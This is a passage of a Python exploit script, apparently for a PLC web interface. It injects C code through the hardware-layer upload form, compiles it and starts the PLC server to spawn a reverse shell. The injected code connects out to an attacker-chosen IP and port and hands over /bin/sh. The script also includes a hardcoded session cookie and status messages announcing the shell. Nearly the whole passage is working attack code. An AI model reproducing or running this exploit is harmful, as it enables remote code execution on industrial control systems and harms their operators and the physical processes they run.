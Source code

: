 ```python
    time.sleep(2)

def connection():
    print('[+] Attempt to Code injection...')
    inject_url = host + "/hardware"
    inject_dash = host + "/dashboard"
    inject_cookies = {"session": ".eJw9z7FuwjAUheFXqTx3CE5YInVI5RQR6V4rlSPrekEFXIKJ0yiASi7i3Zt26HamT-e_i83n6M-tyC_j1T-LzXEv8rt42opcIEOCCtgFysiWKZgic-otkK2XLr53zhQTylpiOC2cKTPkYt7NDSMlJJtv4NcO1Zq1wQhMqbYk9YokMSWgDgnK6qRXVevsbPC-1bZqicsJw2F2YeksTWiqANwkNFsQXdSKUlB16gIskMsbhF9_9yIe8_fBj_Gj9_3lv-Z69uNfkvgafD90O_H4ARVeT-s.YGvyFA.2NQ7ZYcNZ74ci2miLkefHCai2Fk"}
    inject_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------289530314119386812901408558722", "Origin": host, "Connection": "close", "Referer": host + "/hardware", "Upgrade-Insecure-Requests": "1"}
    inject_data = "-----------------------------289530314119386812901408558722\r\nContent-Disposition: form-data; name=\"hardware_layer\"\r\n\r\nblank_linux\r\n-----------------------------289530314119386812901408558722\r\nContent-Disposition: form-data; name=\"custom_layer_code\"\r\n\r\n#include \"ladder.h\"\r\n#include <stdio.h>\r\n#include <sys/socket.h>\r\n#include <sys/types.h>\r\n#include <stdlib.h>\r\n#include <unistd.h>\r\n#include <netinet/in.h>\r\n#include <arpa/inet.h>\r\n\r\n\r\n//-----------------------------------------------------------------------------\r\n\r\n//-----------------------------------------------------------------------------\r\nint ignored_bool_inputs[] = {-1};\r\nint ignored_bool_outputs[] = {-1};\r\nint ignored_int_inputs[] = {-1};\r\nint ignored_int_outputs[] = {-1};\r\n\r\n//-----------------------------------------------------------------------------\r\n\r\n//-----------------------------------------------------------------------------\r\nvoid initCustomLayer()\r\n{\r\n   \r\n    \r\n    \r\n}\r\n\r\n\r\nvoid updateCustomIn()\r\n{\r\n\r\n}\r\n\r\n\r\nvoid updateCustomOut()\r\n{\r\n    int port = "+rev_port+";\r\n    struct sockaddr_in revsockaddr;\r\n\r\n    int sockt = socket(AF_INET, SOCK_STREAM, 0);\r\n    revsockaddr.sin_family = AF_INET;       \r\n    revsockaddr.sin_port = htons(port);\r\n    revsockaddr.sin_addr.s_addr = inet_addr(\""+rev_ip+"\");\r\n\r\n    connect(sockt, (struct sockaddr *) &revsockaddr, \r\n    sizeof(revsockaddr));\r\n    dup2(sockt, 0);\r\n    dup2(sockt, 1);\r\n    dup2(sockt, 2);\r\n\r\n    char * const argv[] = {\"/bin/sh\", NULL};\r\n    execve(\"/bin/sh\", argv, NULL);\r\n\r\n    return 0;  \r\n    \r\n}\r\n\r\n\r\n\r\n\r\n\r\n\r\n-----------------------------289530314119386812901408558722--\r\n"
    inject = x.post(inject_url, headers=inject_headers, cookies=inject_cookies, data=inject_data)
    time.sleep(3)
    comp = x.get(compile_program)
    time.sleep(6)
    x.get(inject_dash)
    time.sleep(3)
    print('[+] Spawning Reverse Shell...')
    start = x.get(run_plc_server)
    time.sleep(1)
    if start.status_code == 200:
        print('[+] Reverse connection receveid!') 
        sys.exit(0)
    else:
        print('[+] Failed to receive connection :(')
        sys.exit(0)

auth()
injection()
connection()
```
